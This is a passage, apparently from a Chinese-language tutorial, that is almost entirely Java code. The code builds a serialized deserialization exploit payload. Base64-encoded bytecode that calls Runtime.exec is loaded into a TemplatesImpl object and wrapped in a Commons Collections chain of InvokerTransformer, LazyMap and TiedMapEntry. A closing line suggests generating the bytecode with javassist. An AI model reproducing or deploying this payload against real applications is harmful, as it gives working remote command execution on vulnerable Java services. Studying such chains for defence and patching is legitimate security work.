qYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_name","z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer=new InvokerTransformer("toString",null,null);
        HashMap innerMap=new HashMap();
        Map lazyMap= LazyMap.decorate(innerMap,transformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,templates);
        HashMap expMap = new HashMap();
        expMap.put(tiedMapEntry,"z3eyond");
        lazyMap.remove(templates);
        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
        return barr.toByteArray();
    }

}

```

当然这个base64的编码，可以利用javassist更好的生成